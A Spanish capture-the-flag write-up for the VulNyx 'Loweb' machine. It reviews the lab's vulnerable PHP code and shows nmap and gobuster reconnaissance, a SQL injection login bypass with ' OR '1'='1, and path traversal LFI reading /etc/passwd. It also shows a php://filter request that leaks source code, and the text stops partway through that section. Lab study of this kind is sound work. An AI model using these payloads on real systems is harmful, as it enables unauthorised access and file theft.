

# Loweb by Skvll / Zayru5

Skills: Identificar servicios y rutas vulnerables.
Abusar de inyección SQL y LFI para obtener acceso.
Obtener shell mediante RCE desde el navegador.
Aprovechar sudo chown para lograr privilegios root.



# ANALISIS CODIGO ESTATICO 🔎📖🧑‍💻🔍

El **análisis de código estático** (Static Code Analysis) consiste en **examinar el código fuente de una aplicación sin ejecutarlo**, con el objetivo de identificar vulnerabilidades de seguridad, errores lógicos, malas prácticas y posibles vectores de ataque. Es una técnica clave en seguridad ofensiva y defensiva, especialmente en auditorías de aplicaciones web.

### 📁 Archivos que se analizaran

Te propongo revisar en orden:

1. `/library/login/index.php` – Verificaremos el **mecanismo de autenticación** (punto clave para SQLi).
2. `/library/admin/index.php` – Generalmente muestra datos, así que analizaremos cómo los recupera (potencial **SQLi o LFI**).
3. `/library/admin/script.php` – Puede ser un endpoint auxiliar, revisaremos si procesa parámetros que puedan permitir **inyección** o **ejecución remota**.

### 

### 🧠 ¿Qué buscamos durante un análisis estático?

Cuando analizamos manualmente archivos PHP como `index.php` o `script.php`, buscamos principalmente:

| 🧨 VULNERABILIDAD | 🔎 INDICADORES EN CÓDIGO |
| --- | --- |
| **LFI / RFI** | `include`, `require`, `include_once`, `require_once` con variables no saneadas. |
| **SQL Injection (SQLi)** | Uso directo de variables como `$_GET`, `$_POST` dentro de consultas SQL. |
| **XSS** | Salida de datos no escapados en HTML (`echo $_GET['input']`). |
| **Command Injection** | Funciones como `exec()`, `system()`, `shell_exec()`, `passthru()` con input del usuario. |
| **Inseguridad en sesiones** | Uso débil de sesiones o cookies (`session_start()` sin flags de seguridad). |
| **CSRF** | Formularios sin tokens de autenticación. |
| **Mal manejo de errores** | Mensajes detallados de error (`die`, `var_dump`, `mysqli_error`, etc.). |
| **Exposición de información** | Archivos de configuración expuestos, comentarios reveladores, etc. |

## 🔎📖🔍 Análisis 🔎📖🔍

### A**nálisis estático del archivo `index.php` ubicado en `library/login`**

```php
<?php 
$errorMsg = "";
session_start();
if (isset($_POST['username']) && isset($_POST['password'])) {
    $conn = new mysqli('localhost', 'root', 'jX16QM2eOQ5$', 'library');
    $sql = "SELECT * FROM users WHERE username = '" . $_POST['username'] . "' AND password = '" . $_POST['password'] . "'";
    $result = $conn->query($sql);
    if ($result->num_rows > 0) {
        $_SESSION['username'] = $_POST['username'];
        header('Location: /library/admin/index.php');
        exit;
    } else {
        $errorMsg = "Invalid credentials. Please try again.";
    }
}
?>
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Loweb Login Page</title>
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" href="https://public.codepenassets.com/css/normalize-5.0.0.min.css">
  <link rel='stylesheet' href='https://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/css/bootstrap.min.css'>
  <link rel='stylesheet' href='https://cdnjs.cloudflare.com/ajax/libs/animate.css/3.5.1/animate.min.css'>
  <link rel='stylesheet' href='https://fonts.googleapis.com/css?family=Poiret+One'>
  <link rel='stylesheet' href='https://maxcdn.bootstrapcdn.com/font-awesome/4.6.3/css/font-awesome.min.css'>
  <link rel="stylesheet" href="./style.css">
</head>
<body>
<div class="container login-form">
  <h2 class="login-title">Login Panel</h2>
  <div class="panel panel-default">
    <div class="panel-body">
      <form action="" method="POST">
        <div class="input-group login-userinput">
          <span class="input-group-addon">
            <span class="glyphicon glyphicon-user"></span>
          </span>
          <input id="txtUser" type="text" class="form-control" name="username" placeholder="Username">
        </div>
        <div class="input-group">
          <span class="input-group-addon">
            <span class="glyphicon glyphicon-lock"></span>
          </span>
          <input id="txtPassword" type="password" class="form-control" name="password" placeholder="Password">
          <span id="showPassword" class="input-group-btn">
            <button class="btn btn-default reveal" type="button">
              <i class="glyphicon glyphicon-eye-open"></i>
            </button>
          </span>
        </div>
        <button class="btn btn-primary btn-block login-button" type="submit">
          <i class="fa fa-sign-in"></i> Login
        </button>
      </form>
      <!-- Error message appears below the form -->
      <?php if (!empty($errorMsg)) { ?>
          <div class="alert alert-danger text-center" style="margin-top: 20px;">
              <?php echo $errorMsg; ?>
          </div>
      <?php } ?>
    </div>
  </div>
</div>
<script src='https://code.jquery.com/jquery-2.2.4.min.js'></script>
<script src='https://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/js/bootstrap.min.js'></script>
<script src="./script.js"></script>
</body>
</html>
```

## 🔍 **Resumen del objetivo del archivo**

Este archivo es el punto de acceso para que los usuarios se autentiquen. Tiene un formulario de login y código PHP que valida las credenciales.

## 🔥 PARTES DEL CÓDIGO VULNERABLE + ANÁLISIS DETALLADO

### 📌 1. **Conexión e Inyección SQL directa (SQLi)**

```php
$conn = new mysqli('localhost', 'root', 'jX16QM2eOQ5$', 'library');
$sql = "SELECT * FROM users WHERE username = '" . $_POST['username'] . "' AND password = '" . $_POST['password'] . "'";
```

### 🔍 **Qué hace este código:**

- Conecta a MySQL con usuario y password.
- Construye un query SQL **directamente concatenando** el input del usuario (`$_POST['username']` y `$_POST['password']`).

### 🧨 **Vulnerabilidad: hardcoded credentials**

**Riesgos:**

- Las credenciales están **en texto plano** dentro del código.
- Si un atacante logra acceso al archivo (LFI, RCE, backup filtrado), **podrá acceder directamente a la base de datos** como root.

**Impacto:**

- Acceso total a la base de datos `library`.
- Potencial para escalar privilegios en el sistema (si MySQL corre como root).
- Podría ser usada para explotación manual o automatizada.

### 🕵️ **No hay cifrado de contraseña**

Ya lo mencionamos, pero vale enfatizar: las contraseñas en la base de datos están en texto plano.

### ❗ ¿Por qué es vulnerable?

Cuando el usuario ingresa texto como:

```php
username = ' OR '1'='1
password = ' OR '1'='1
```

**El SQL final sería:**

```
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '' OR '1'='1'
```

Este query siempre será **verdadero**, permitiendo **acceso no autorizado** sin credenciales válidas.

### 📌 Impacto:

- Autenticación eludida
- Acceso a usuarios privilegiados (como admin)
- Posibilidad de extracción de datos (si el resultado es mostrado o accesible)

### 📌 2. **Gestión débil de contraseñas**

```php
$sql = "SELECT * FROM users WHERE username = '" . $_POST['username'] . "' AND password = '" . $_POST['password'] . "'";

```

### 🔍 Qué está mal:

- Las contraseñas se **comparan en texto plano** directamente con el campo en la base de datos.
- No se usa ningún tipo de hashing como `bcrypt`, `sha256`, `password_hash()`.

### 🧨 VULNERABILIDAD: **Inseguridad criptográfica**

### 📌 Impacto:

- Si se filtra la base de datos (`library.users`), las contraseñas se verán directamente.
- La explotación de otras vulnerabilidades (como LFI o SQLi) podría dar acceso a credenciales reales.

### 📌 3. **No hay validación de entrada ni sanitización**

- Ningún filtro sobre `$_POST['username']` o `$_POST['password']`.
- No se valida ni con `filter_input()`, ni se escapan caracteres.

### 📌 4. **Sesión débilmente asegurada**

```php
session_start();
...
$_SESSION['username'] = $_POST['username'];
```

### 🔍 Qué falta:

- No se regeneran IDs de sesión con `session_regenerate_id()` tras login exitoso.
- No hay flags de seguridad para cookies (`HttpOnly`, `Secure`, etc.).

### 🧨 Impacto:

- Susceptible a **session fixation**, secuestro de sesión, etc.

## 🔚 CONCLUSIÓN

| ⚠️ Vulnerabilidad | Severidad | Corrección |
| --- | --- | --- |
| **SQL Injection** | Crítica 🔴 | Prepared statements |
| **Contraseña en texto plano** | Alta 🟠 | `password_hash` y `password_verify` |
| **Sin validación de input** | Alta 🟠 | `filter_input`, `htmlspecialchars` |
| **Manejo débil de sesión** | Media 🟡 | `session_regenerate_id`, configuración segura de cookies |

### A**nálisis estático del archivo `index.php` ubicado en `library/admin`**

```php
<?php
session_start();
if(!isset($_SESSION['username'])){
    header('Location: /library/login/index.php');
    exit;
}
?>
<!DOCTYPE html>
<html lang="en" >
<head>
  <meta charset="UTF-8">
  <title>Admin Panel</title>
  <link rel='stylesheet' href='//code.ionicframework.com/ionicons/2.0.1/css/ionicons.min.css'><link rel="stylesheet" href="./style.php">

</head>
<body>
<!-- partial:index.partial.html -->
<div class="container">
  <div class="drawer">
    <a class="navicon" href="#"><i class="icon ion-navicon"></i></a>
    <div class="menu">
      <a data-menu="dashboard" href="#" class="active"><i class="icon ion-home"></i></a>
      <a data-menu="users" href="#"><i class="icon ion-person-stalker"></i></a>
      <a data-dialog="logout" href="#"><i class="icon ion-log-out"></i></a>
      <a data-menu="download" href="#"><i class="icon ion-code-download"></i></a>
      <a data-menu="about" href="#"><i class="icon ion-information-circled"></i></a>
    </div>
    <span class="credits">VulNyx - Jackie0x17</span>
  </div>
  <div class="content">
    <div class="page active" data-page="dashboard">
      <div class="header">
        <div class="title">
          <h2>Dashboard</h2>
        </div>
      </div>
      <div class="grid">
        <div class="card">
          <div class="head">
            <span class="icon">
              <i class="icon ion-pound"></i>
            </span>
            <span class="stat">
              Server Status
            </span>
            <div class="status">
            </div>
          </div>
          <div class="body">
            <h2>Server is currently $_status</h2>
            <p>
              The server is running normally and no issues have recently been detected. If you notice an outage, please report it to the administrator.
            </p>
          </div>
          <div class="footer">
            <div class="user">
              <div class="user-icon">
              </div>
              <span class="username">
                admin
              </span>
            </div>
          </div>
        </div>
        <div class="card">
          <div class="head">
            <span class="icon">
              <i class="icon ion-code-working"></i>
            </span>
            <span class="stat">
              VulNyx Status
            </span>
            <div class="status">
            </div>
          </div>
          <div class="body">
            <h2>Cheat is currently $_status</h2>
            <p>
              The server is running normally and no issues have recently been detected. If you notice an outage, please report it to the administrator.
            </p>
          </div>
          <div class="footer">
            <div class="user">
              <div class="user-icon">
              </div>
              <span class="username">
                r3dh4ck
              </span>
            </div>
          </div>
        </div>
        <div class="card-verticle">
          <div class="card-small">
            <span class="title">
              Active Users
            </span>
            <h2 class="text">12</h2>
            <div class="graph">
              <div class="bar" data-day="sunday">
                <div class="bar-content"></div>
              </div>
              <div class="bar" data-day="monday">
                <div class="bar-content"></div>
              </div>
              <div class="bar" data-day="tuesday">
                <div class="bar-content"></div>
              </div>
              <div class="bar" data-day="wednesday">
                <div class="bar-content"></div>
              </div>
              <div class="bar" data-day="thursday">
                <div class="bar-content"></div>
              </div>
              <div class="bar" data-day="friday">
                <div class="bar-content"></div>
              </div>
              <div class="bar" data-day="saturday">
                <div class="bar-content"></div>
              </div>
            </div>
          </div>
          <div class="card-small">
            <span class="title">
              Overview
            </span>
          </div>
        </div>
      </div>
      <div class="stats">
      </div>
    </div>
    <div class="page noflex" data-page="users">
      <div class="header">
        <div class="title">
          <h2>Users</h2>
        </div>
      </div>
      <div class="grid">
        <div class="user-edit">
          <div class="header">
            <span class="icon">
              <i class="icon ion-person"></i>
            </span>
            <span class="user-edit-name">$_USERNAME</span>
            <a href="#" class="close"><i class="icon ion-close-round"></i></a>
          </div>
        </div>
        <div class="users-table">
          <div class="users-item header">
            <div class="table-item noflex">
              ID
            </div>
            <div class="table-item">
              Email Address
            </div>
            <div class="table-item">
              Username
            </div>
            <div class="table-item">
              Nickname
            </div>
            <div class="table-item">
              Active
            </div>
            <div class="table-item">
              Premium
            </div>
          </div>
        </div>
      </div>
    </div>
    <div class="page noflex" data-page="download">
      <div class="header">
        <div class="title">
          <h2>Download</h2>
        </div>
      </div>
      <div class="grid">
        <div class="card wide">
          <div class="head">
            <span class="icon">
              <i class="icon ion-code-working"></i>
            </span>
            <span class="stat">
              Cheat Client
            </span>
            <div class="status">
            </div>
          </div>
          <div class="body">
            <h2>Latest Version: v$_VERSION</h2>
            <p>
              changelog here
            </p>
          </div>
          <div class="footer">
            <div class="user">
              <div class="user-icon">
              </div>
              <span class="username">
                Administrator 
              </span>
            </div>
            <a class="download" href="#">Download <i class="icon ion-archive"></i></a>
          </div>
        </div>
      </div>
    </div>
    <div class="page noflex" data-page="about">
      <div class="header">
        <div class="title">
          <h2>About</h2>
        </div>
      </div>
      <div class="info-container">
        <div class="info">
          <a href="http://uplusion23.net/" target="_blank">Developer</a>
          <span>uplusion23</span>
        </div>
        <div class="info">
          <a href="#" target="_blank">Dashboard Version</a>
          <span>1.0.0</span>
        </div>
        <div class="info">
          <a href="#" target="language">Language</a>
          <span>
	    <a href="index.php?lang=es.php">es</a>
            <a href="index.php?lang=en.php">en</a>
	  </span>
        </div>
      </div>
    </div>
  </div>
  <div class="sidebar">

  </div>
  <div class="dialog">
    <div class="dialog-block">
      <h2>Are you sure you want to logout?</h2>
      <div class="controls">
        <a href="../login/index.php" class="button">Logout</a>
        <a data-dialog-action="cancel" href="#" class="button">Cancel</a>
      </div>
    </div>
  </div>
</div>
<!-- partial -->
  <script src='https://cdnjs.cloudflare.com/ajax/libs/jquery/3.2.1/jquery.min.js'></script><script  src="./script.php"></script>

</body>
</html>
<?php
$lang = isset($_GET['lang']) ? $_GET['lang'] : '';

include($lang)
?>
```

### 🧠 **1. Autenticación de sesión (correcta pero básica)**

```php
session_start();
if(!isset($_SESSION['username'])){
    header('Location: /library/login/index.php');
    exit;
}

```

**No se verifica el tipo de usuario o privilegio.**

- Cualquiera con una sesión válida accede al panel. No hay roles (`admin`, `user`, etc).

### ☠️ **2. Inyección Local de Archivos (LFI)**

```php
$lang = isset($_GET['lang']) ? $_GET['lang'] : '';
include($lang)
```

Al final del archivo.

### ❗ **Vulnerabilidad: LFI (Local File Inclusion)**

El usuario puede controlar el valor de `$_GET['lang']`. Si no se valida:

```php
http://loweb.vulnyx/library/admin/index.php?lang=../../../../etc/passwd
```

➡️ Esto cargaría el archivo `/etc/passwd` en el servidor (si no hay restricciones), permitiendo:

- Exfiltración de archivos sensibles.
- Inclusión de archivos con PHP (si están bajo el directorio web).
- Incluso ejecución remota si se logra incluir un archivo subido o log con código malicioso.

### 📦 **3. Archivos PHP como hojas de estilo / script**

```php
<link rel="stylesheet" href="./style.php">
<script src="./script.php"></script>
```

### ❗ **Posible punto de ejecución remota o filtración**

Si `style.php` o `script.php` generan contenido dinámico y reciben entradas del usuario (por GET o POST), podrían ser:

- Vía de **RCE** (Remote Code Execution) si no están protegidos.
- Fuente de **filtración de rutas, variables o errores** si hacen `echo $_GET['x']` directamente sin sanitizar.

Se necesitaria revisar **esos archivos por separado**, pero incluir archivos `.php` como recursos públicos puede ser un **riesgo serio si no están debidamente controlados**.

## ✅ Resumen de Vulnerabilidades

| Tipo | Descripción | Riesgo |
| --- | --- | --- |
| 🔓 Autenticación débil | No hay roles ni control de privilegios | Medio |
| 📂 LFI | `include($lang)` es controlado por el usuario | **Crítico** |
| 🐍 PHP como recurso | `style.php`, `script.php` pueden exponer o ejecutar código | Alto |

### A**nálisis estático del archivo `script.php` ubicado en `library/admin`**

```php
<?php
session_start();
if (!isset($_SESSION['username'])) {
    header('Location: /library/login/index.php');
    exit;
}
header('Content-Type: application/javascript');
?>
$('.menu a[data-menu]').on('click', function() {
  var menu = $(this).data('menu');
  $('.menu a.active').removeClass('active');
  $(this).addClass('active');
  $('.active[data-page]').removeClass('active');
  $('[data-page="' + menu  + '"]').addClass('active');
});

$('body').on('click', '[data-dialog]', function() {
  var action = $(this).data('dialog');
  switch (action) {
    case 'logout':
      $('.dialog').toggleClass('active');
      break;
    }
});

$('body').on('click', '[data-dialog-action]', function() {
  var action = $(this).data('dialog-action');
  switch (action) {
    case 'cancel':
      $(this).closest('.dialog.active').toggleClass('active');
      break;
    }
});

function updateGraph(data) {
  $('.graph .bar[data-day]').each(function() {
    var day = $(this).data('day');
    var barH = $(this).height();
    switch (day) {
      case 'sunday':
        $(this).find('.bar-content').css('height', (barH / 100) * data[day]  + 'px');
        break;
      case 'monday':
        $(this).find('.bar-content').css('height', (barH / 100) * data[day]  + 'px');
        break;
      case 'tuesday':
        $(this).find('.bar-content').css('height', (barH / 100) * data[day]  + 'px');
        break;
      case 'wednesday':
        $(this).find('.bar-content').css('height', (barH / 100) * data[day]  + 'px');
        break;
      case 'thursday':
        $(this).find('.bar-content').css('height', (barH / 100) * data[day]  + 'px');
        break;
      case 'friday':
        $(this).find('.bar-content').css('height', (barH / 100) * data[day]  + 'px');
        break;
      case 'saturday':
        $(this).find('.bar-content').css('height', (barH / 100) * data[day]  + 'px');
        break;
               }
  });
}

function addUserToTable(data) {
  var table = $('.users-table');
  var ele = '<div class="users-item"><div class="table-item noflex">' + data['id'] + '</div><div class="table-item">' + data['email'] + '</div><div class="table-item">' + data['username'] + '</div><div class="table-item">' + data['nickname'] + '</div><div class="table-item">' + (data['premium'] ? "Active" : "Inactive") + '</div><div class="table-item">' + (data['premium'] ? "Premium" : "Not Premium") + '<div class="user-edit-controls"><a href="#" class="table-edit-button">Edit</a></div></div></div>';
  table.append(ele);
}

var tempData = {
  sunday: 40,
  monday: 50,
  tuesday: 30,
  wednesday: 20,
  thursday: 30,
  friday: 60,
  saturday: 90
}

var users = [
  {
    "id": 0,
    "email": "suraxddq@vulnyx.com",
    "username": "suraxddq",
    "nickname": "suraxddq",
    "active": true,
    "premium": false
  },
  {
    "id": 10,
    "email": "matthygd@vulnyx.com",
    "username": "matthygd",
    "nickname": "matthygd",
    "active": true,
    "premium": false
  },
  {
    "id": 20,
    "email": "sublarge@vulnyx.com",
    "username": "sublarge",
    "nickname": "sublarge",
    "active": true,
    "premium": false
  },
  {
    "id": 30,
    "email": "flo2699@vulnyx.com",
    "username": "Flo2699",
    "nickname": "Flo2699",
    "active": true,
    "premium": false
  },
  {
    "id": 40,
    "email": "primary@vulnyx.com",
    "username": "Primary",
    "nickname": "primary",
    "active": true,
    "premium": false
  },
  {
    "id": 50,
    "email": "qiaojojo@vulnyx.com",
    "username": "qiaojojo",
    "nickname": "qiaojojo",
    "active": true,
    "premium": false
  },
  {
    "id": 60,
    "email": "flower@vulnyx.com",
    "username": "flower",
    "nickname": "flower",
    "active": true,
    "premium": false
  },
  {
    "id": 70,
    "email": "maciiii___@vulnyx.com",
    "username": "maciiii___",
    "nickname": "maciiii___",
    "active": true,
    "premium": false
  },
  {
    "id": 100,
    "email": "ethicrash2@vulnyx.com",
    "username": "ethicrash2",
    "nickname": "ethicrash2",
    "active": true,
    "premium": false
  },
  {
    "id": 130,
    "email": "ll104567@vulnyx.com",
    "username": "ll104567",
    "nickname": "ll104567",
    "active": true,
    "premium": false
  },
  {
    "id": 170,
    "email": "minidump@vulnyx.com",
    "username": "minidump",
    "nickname": "minidump",
    "active": true,
    "premium": false
  }
];
$.each(users, function(i, item) {
  addUserToTable(users[i]);
});

updateGraph(tempData);

$('body').on('click', '.users-item:not(.header)', function() {
  console.log('click')
  $(this).toggleClass('active')
});

$('body').on('click', '.users-item a.table-edit-button', function() {
  $(this).closest('.grid').toggleClass('edit-users');
  $(this).closest('.users-item').toggleClass('active');
  e.preventDefault();
});

$('body').on('click', '.user-edit .header .close', function() {
  $(this).closest('.grid').toggleClass('edit-users');
  $(this).closest('.users-item').toggleClass('active');
  e.preventDefault();
});
```

## 🚨 **Exposición de datos sensibles (usuarios y correos) directamente en el archivo JavaScript entregado desde el servidor.**

### 💥 ¿Por qué es crítico?

El archivo `script.php` expone **una lista completa de usuarios con sus correos electrónicos reales** directamente al cliente (navegador), sin ningún tipo de autenticación adicional, restricción o validación por roles.

Este tipo de exposición permite a **cualquier persona autenticada** (no necesariamente un admin) ver información que debería estar **protegida en el backend**.

### 🔐 Impacto de seguridad

| Riesgo | Descripción |
| --- | --- |
| 📬 Recolección de correos | Bots o atacantes pueden extraer emails para spam o phishing. |
| 🕵️ Fingerprinting | Nombres de usuarios, nicks y correos dan pistas sobre el sistema y su uso. |
| ⚙️ Ingeniería social | Correos reales ayudan a crear ataques personalizados. |
| 🔍 Indexación accidental | Si el script.php no está bloqueado por robots.txt, podría indexarse en Google. |

## ⚠️ Código vulnerable:

```jsx
var users = [
  {
    "id": 0,
    "email": "suraxddq@vulnyx.com",
    "username": "suraxddq",
    "nickname": "suraxddq",
    "active": true,
    "premium": false
  },
  {
    "id": 10,
    "email": "matthygd@vulnyx.com",
    "username": "matthygd",
    "nickname": "matthygd",
    "active": true,
    "premium": false
  },
  ...
];
$.each(users, function(i, item) {
  addUserToTable(users[i]);
});

```

**Este bloque inyecta toda la información sensible directamente al HTML desde el archivo `script.php`, que es público para cualquier sesión activa.**

# 🔎 RECONOCIMIENTO 🔍

## ARP Scan

## Reconocimiento Inicial 🔎

### Escaneo de puertos con 🔎Nmap🔍

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -oN Loweb_Scan 192.168.11.13
```

### 📜 Resultados ✅

```bash
# Nmap 7.95 scan initiated Mon May  5 10:56:17 2025 as: /usr/lib/nmap/nmap --privileged -p- --open -sS --min-rate 5000 -n -Pn -oN Loweb_Scan 192.168.11.13
Nmap scan report for 192.168.11.13
Host is up (0.00064s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:A8:63:2D (VMware)

# Nmap done at Mon May  5 10:56:20 2025 -- 1 IP address (1 host up) scanned in 3.21 seconds
```

### 🧠 Detección de servicios y versiones

```bash
nmap -sCV -p22,80 -oN Scripts_Services 192.168.11.13
```

### 📜 Resultados ✅

```bash
# Nmap 7.95 scan initiated Mon May  5 10:42:24 2025 as: /usr/lib/nmap/nmap --privileged -sCV -p22,80 -oN Scripts_Services 192.168.11.13
Nmap scan report for 192.168.11.13 (192.168.11.13)
Host is up (0.0027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 65:bb:ae:ef:71:d4:b5:c5:8f:e7:ee:dc:0b:27:46:c2 (ECDSA)
|_  256 ea:c8:da:c8:92:71:d8:8e:08:47:c0:66:e0:57:46:49 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 00:0C:29:A8:63:2D (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 🔍 **Análisis del Escaneo de Puertos y Servicios**

**Puertos abiertos:**

- **22/tcp – SSH**
    - **Versión:** OpenSSH 9.2p1 Debian 2+deb12u5
    - SSH está disponible pero de momento no hay credenciales conocidas. Lo dejamos para más adelante si encontramos usuarios o contraseñas.
- **80/tcp – HTTP (Apache 2.4.62 en Debian)**
    - Versión moderna → difícilmente vulnerable sin algo más específico.
    - El título es la página por defecto de Apache ("It works") → poco útil en raíz, pero ya encontraste directorios interesantes.
    

# 🌐 **Enumeración Web** 🌐

## 🌍 Identificación de tecnologías con WhatWeb

### Whatweb

```bash
whatweb http://192.168.11.13
```

### 📜 Resutados ✅

```bash
http://192.168.11.13 [200 OK] Apache[2.4.62], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[192.168.11.13], Title[Apache2 Debian Default Page: It works]
```

### 🔍 **Análisis de la identificación de tecnologías**

- Confirmación de Apache/2.4.62, sistema Debian.
- Página principal: default de Apache → indica que el contenido real está en subdirectorios.

## Descubrimiento de rutas (FUZZING de contenido)

### Gobuster

```bash
gobuster dir -u http://192.168.11.13/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -o rutas_Loweb.txt

```

### 📜 Resultados ✅

```bash
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 10701]
/library              (Status: 301) [Size: 316] [--> http://192.168.11.13/library/]
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/server-status        (Status: 403) [Size: 278]
```


### Rutas encontradas en raíz:

- `/index.html` → Página por defecto
- `/library/` → Redirige correctamente
- `/server-status` → Acceso prohibido (403)
- Archivos `.php`, `.html` → retornan 403 → puede indicar protección superficial o configuración restrictiva


### 📂 Enumeración dentro de `/library/`

### Gobuster

```bash
gobuster dir -u http://192.168.11.13/library/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -o rutas_Library.txt

```

### 📜 Resultados ✅

```bash
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 1068]
/login                (Status: 301) [Size: 322] [--> http://192.168.11.13/library/login/]
/admin                (Status: 301) [Size: 322] [--> http://192.168.11.13/library/admin/]
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
```

### Rutas encontradas:

- `/library/index.html` → Página cargada
- `/library/login/` → Punto de autenticación
- `/library/admin/` → Zona posiblemente restringida


# 🔓 GANANDO ACCESO

## Resumen Fases previas

Formulario de login en: [http://192.168.11.13/library/login/](http://192.168.11.13/library/login/)

### ⚠️ Podría permitir:

- Inyección SQL
- Bypass de autenticacióN
- Credenciales por defecto o fugas

Panel de administración en:[http://192.168.11.13/library/admin/](http://192.168.11.13/library/admin/)

Si no está protegido por sesión, cookies o auth básica, se podría acceder directamente o analizar cómo intenta protegerse.

- Archivos .php y .html retornando 403: Esto indica que hay lógica PHP pero posiblemente está restringida a ciertos métodos o rutas.
- Puede haber archivos protegidos accesibles por fuzzing o mal configurados.

## ¿Qué sigue ahora?

### ✅ Paso 1: **Analizar `/library/login/`**

- Acceder en el navegador y observar si hay un formulario típico:
    - ¿Username/password?
    - ¿Dónde envía los datos? (`POST` → `/login`, `/auth`, etc.)
    - ¿Algún mensaje de error al fallar? ¿Hay diferencia entre usuarios válidos y no válidos?

### ✅ Paso 2: **Pruebas de inyección SQL (si aplica)**

- En campos de login probar payloads como:
    - `' OR '1'='1`
    - `admin'--`
    - `' OR 1=1 LIMIT 1-- -`

## SQL INJECTION

## 💉 ¿Qué es una Inyección SQL? 💉

La **inyección SQL** es una vulnerabilidad que ocurre cuando una aplicación web **no filtra correctamente** los datos ingresados por el usuario antes de usarlos en una **consulta SQL**.

Esto permite al atacante **inyectar comandos SQL maliciosos**, que el servidor ejecuta **como si fueran parte de la lógica normal**.

## 🧠 ¿Qué fue lo que se hizo? 🧠

Usaste estas entradas:

- **Username:** `' OR '1'='1`
- **Password:** `Cualquiera`

Esto es un **payload clásico** de inyección SQL. El servidor probablemente está ejecutando internamente una consulta parecida a:

```sql
SELECT * FROM users WHERE username = '[USER]' AND password = '[PASSWORD]'
```

Cuando se introduce:

```sql
username = ' OR '1'='1
password = ' OR '1'='1
```

La consulta se convierte en algo así como:

```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '' OR '1'='1'
```

Y con precedencia de operadores puede simplificarse como:

```sql
SELECT * FROM users WHERE ('true') AND ('true')
```

🔓 Lo que provoca que la condición **siempre sea verdadera** y te dé acceso, **sin conocer un usuario válido ni una contraseña real**.


## LFI (Local File Inclusion)

Se navega por la web y se hace Hovering en diferentes “botones” u opciones que tiene la aplicación

- Se ve algo muy interesante en la siguiente ruta:
    
    ```sql
    [http://loweb.vulnyx/library/admin/index.php?lang=es.php#](http://loweb.vulnyx/library/admin/index.php?lang=es.php#)
    ```
    


Esto indica que `index.php` **incluye archivos PHP dinámicamente** basándose en el parámetro `lang`.


### 📌 ¿Por qué esto es una posible vulnerabilidad?

🔍 **1. El parámetro `lang` acepta archivos `.php`**

```html
<a href="index.php?lang=es.php">es</a>
<a href="index.php?lang=en.php">en</a>
```

**Esto sugiere que el contenido del parámetro `lang` se está usando dinámicamente para incluir un archivo.**

Eso es un patrón clásico para LFI si no hay sanitización.

### 🧠 **2. Posible uso de `include()` o `require()` en PHP**

Cuando ves un parámetro como `lang=es.php`, en el backend probablemente haya algo como:

```php
include($_GET['lang']);
```

Sin validación estricta, eso permite incluir **cualquier archivo del servidor**, como:

```bash
?lang=../../../../etc/passwd
```

Esto es **exactamente lo que define una vulnerabilidad de LFI**.

### ✅ ¿Cómo confirmar si es vulnerable?

- **Intentar LFI clásico:**

```bash
index.php?lang=../../../../../../etc/passwd
```

## CAIDO


### 🎯 **Vulnerabilidad confirmada**:

- **Resultado**: El contenido de `/etc/passwd` fue mostrado en la respuesta.
- **Esto prueba** que el parámetro `lang` es vulnerable a **LFI sin restricción**.

## Punto de vista del atacante

### 🔜 Siguiente paso con el wrapper `php://filter`

Ya que se confirmó la lectura de archivos locales como `/etc/passwd`, se puede escalar a lectura de **código fuente de archivos PHP** que normalmente se ejecutan en el servidor y no se muestran. Para ello se usará el **wrapper `php://filter`**.

❌ **Sin wrapper – no ves el código fuente ❌**

### ✅ Con wrapper – se obtiene el código fuente de index.php - script.php

```html
GET /library/admin/index.php?lang=php://filter/convert.base64-encode/resource=index.php
```

- `php://filter` le dice al servidor que **no lo ejecute**, sino que:
    - **lo lea como archivo**
    - **lo codifique en base64**
    - **El atacante luego decodifica el resultado Base64** para obtener el **código fuente del archivo PHP**.

### **Impacto Crítico del Uso de Wrappers**

- **Exposición del código fuente**: Un atacante puede ver credenciales, rutas internas, estructuras de sesión y lógica del servidor.
- **Reconocimiento del sistema**: Le da al atacante toda la información necesaria para encontrar nuevas vulnerabilidades (inyecciones SQL, LFI a RCE, etc.).
- **Escalada de ataque**: Si encuentra una ruta de subida de archivos o secretos del sistema, puede usarlos para escalar privilegios.

### **➡️ Técnica: LFI + PHP Wrapper (php://filter) para File Disclosure**


- **LFI (Local File Inclusion)**: El parámetro vulnerable permite incluir archivos locales arbitrarios.
- **Wrapper `php://filter`**: Se usa para evadir ejecución y obtener el contenido del archivo en crudo, codificado en base64.
- 

